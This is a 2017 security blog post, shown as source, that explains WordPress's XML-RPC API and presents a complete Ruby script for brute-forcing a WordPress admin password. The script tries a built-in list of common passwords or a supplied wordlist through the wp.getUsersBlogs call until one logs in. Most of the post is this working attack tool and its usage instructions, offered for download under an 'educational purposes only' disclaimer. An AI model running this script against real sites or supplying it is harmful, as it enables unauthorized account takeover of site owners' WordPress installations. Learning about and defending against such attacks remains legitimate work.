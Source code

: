 ```yaml
---
layout: post
title: "Brute forcing wordpress password via XMLRPC API"
date: 2017-05-14 17:12
comments: true
categories: [wordpress hacking, web security]
description: wordpress password bruteforce, wordpress xmlrpc api, wordpress hacking
keywords: wordpress hacking, wordpress bruteforce, wordpress xmlrpc api, web hacking, wordpress information gathering
sharing: true
---
```

<img src="{{ root_url }}/images/wordpress-hacking.png"/> 

#### All code and information for educational purposes only

Starting a series of posts about web security, which also a passion of mine besides development.

The first post will be about bruteforce attack on wordpress using [XMLRPC API](https://codex.wordpress.org/XML-RPC_WordPress_API/Users). Second choice will be a direct bruteforce attack via 'wp-login.php' which may be more complex during
'Account Lockout Policy' and other things, maybe I will describe it in other post.

<!-- more -->

#### Whats is XML-RPC?
[The XML-RPC is an API that enables developers create WordPress ‘apps’ (like clients, plugins and themes), that allow you to make remote HTTP requests to your WordPress site.](https://blogvault.net/how-xml-rpc-affects-wordpress-security/)

The simplest way to check if XMLRPC API enabled(default) for you wordpress engine is going to browser and putting http://127.0.0.1:8080/xmlrpc.php, seeing 'XML-RPC server accepts POST requests only.' means XMLRPC API enabled.

A couple of words about other great tools for wordpress password bruteforce:

[WPScan](https://wpscan.org/), great tool for wordpress information gathering and for password brute-force attack
[Nmap with http-wordpress-brute script](https://nmap.org/nsedoc/scripts/http-wordpress-brute.html), performs brute force password auditing against Wordpress CMS/blog installations.

Let's start to build simple script which will iterate throught our dictionary and will find admin password for your wordpress, I am using [default dictionary](https://github.com/danielmiessler/SecLists/blob/master/Passwords/Sucuri_Top_Wordpress_Passwords.txt) for out bruteforce attack.

Our script will use [xml-rpc client for ruby](https://ruby-doc.org/stdlib-2.3.1/libdoc/xmlrpc/rdoc/XMLRPC/Client.html)


#### wp_find_password.rb script
``` ruby 
#!/usr/bin/env ruby
# encoding: UTF-8

require 'optparse'
require 'xmlrpc/client'
require 'uri'


def wp_find_password(options)
  # https://github.com/danielmiessler/SecLists/blob/master/Passwords/Sucuri_Top_Wordpress_Passwords.txt
  passwords = %w(admin 123456 password 12345678 typhoon 666666 111111 1234567 qwerty
                 siteadmin qwerty siteadmin administrator root 123123 123321
                 1234567890 letmein123 test123 demo123 pass123 123qwe qwe123 654321 loveyou adminadmin123)

  uri = URI(options[:url])
  server = XMLRPC::Client.new(uri.host, uri.path, uri.port)
  server.http_header_extra = {'accept-encoding' => 'identity'}
  
  if options[:wordlist] != 'default'
    passwords = File.readlines(options[:wordlist])
    passwords.collect! {|s| s.chomp}
  end
  
  passwords.each do |password|
    begin
      response = server.call("wp.getUsersBlogs", options[:username], password)
      if response
        puts "--- Success: PASSWORD: #{password} for username: #{options[:username]} ---\n"
        break;
      end
    rescue XMLRPC::FaultException => e
      puts "Wrong password: #{password} for username: #{options[:username]}, response code #{e.faultCode}\n"
    end
  end
end

options = {:url => 'http://127.0.0.1:8080/wordpress/xmlrpc.php', :username => 'admin', :wordlist => 'default'}

OptionParser.new do |opts|
  opts.banner = "Usage: wp_find_password.rb [options]"
  opts.on('--username username', 'Username, default: admin') do |username|
    options[:username] = username
  end

  opts.on('--url url', 'Url, default: http://127.0.0.1/wordpress/xmlrpc.php') do |url|
    options[:url] = url
  end

  opts.on('--wordlist wordlist', 'Word List, default: https://github.com/danielmiessler/SecLists/blob/master/Passwords/Sucuri_Top_Wordpress_Passwords.txt') do |wordlist|
    options[:wordlist] = wordlist
  end

  opts.on('-h', '--help', 'Displays Help') do
    puts opts
    exit
  end
end.parse!

wp_find_password(options)
``` 

You may download this script [here](https://github.com/warolv/wordpress-scripts)

Usage example: wp_find_password.rb --url 127.0.0.1:8080/wordpress/xmlrpc.php  --wordlist /Users/example/Downloads/wordlist.txt --username admin

Options:
Usage: wp_find_password.rb [options]
        --username username          Username, default: admin
        --url url                    Url, default: http://127.0.0.1/wordpress/xmlrpc.php
        --wordlist wordlist          Dictionary
    -h, --help                       Displays Help